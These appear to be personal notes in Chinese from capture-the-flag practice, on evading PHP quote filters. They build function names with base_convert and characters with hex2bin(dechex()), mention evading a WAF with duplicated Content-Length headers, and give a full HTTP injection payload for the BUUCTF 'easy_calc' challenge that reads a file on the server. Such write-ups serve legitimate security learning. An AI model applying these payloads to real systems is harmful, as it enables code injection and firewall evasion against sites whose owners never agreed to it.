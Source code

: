 # 绕过过滤

## 要输入字符串，但过滤了单双引号

base_convert()绕过：base_convert(string $number,int $frombase,int $ tobase)  
高于十进制的数字用字母a-z表示。36进制下可包含a-z  

```php
php > echo base_convert("phpinfo",36,10);
55490343972
php > echo base_convert(55490343972,10,36);
phpinfo
```

特殊符号构造：利用`hex2bin(dechex())`,dechex() 把十进制转为十六进制，hex2bin() 把十六进制值字符串转换为 ASCII 字符。  

> hex2bin(dechex(47)) -> /  
hex2bin(dechex(46)) -> .  
hex2bin(dechex(42)) -> *  
hex2bin(dechex(95)) -> _

用`echo base_convert(bin2hex('*'),16,10);`在php解释器`php -a`里自己构造十进制数字。  
可以哪天写个脚本搞一下  

## 使用畸形的HTTP请求（比如两个Content-Length）可绕WAF

具体我也不知道咋回事

## buuctf easy_calc

为什么有这个点？（dechex47和base_convert之间）

```
POST /calc.php?num=base_convert(2146934604002,10,36)(hex2bin(dechex(47)).base_convert(25254448,10,36)) HTTP/1.1
Host: node3.buuoj.cn:28348
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Content-Length: 7
Content-Length: 7
Referer: http://node3.buuoj.cn:28348/

num=111
```
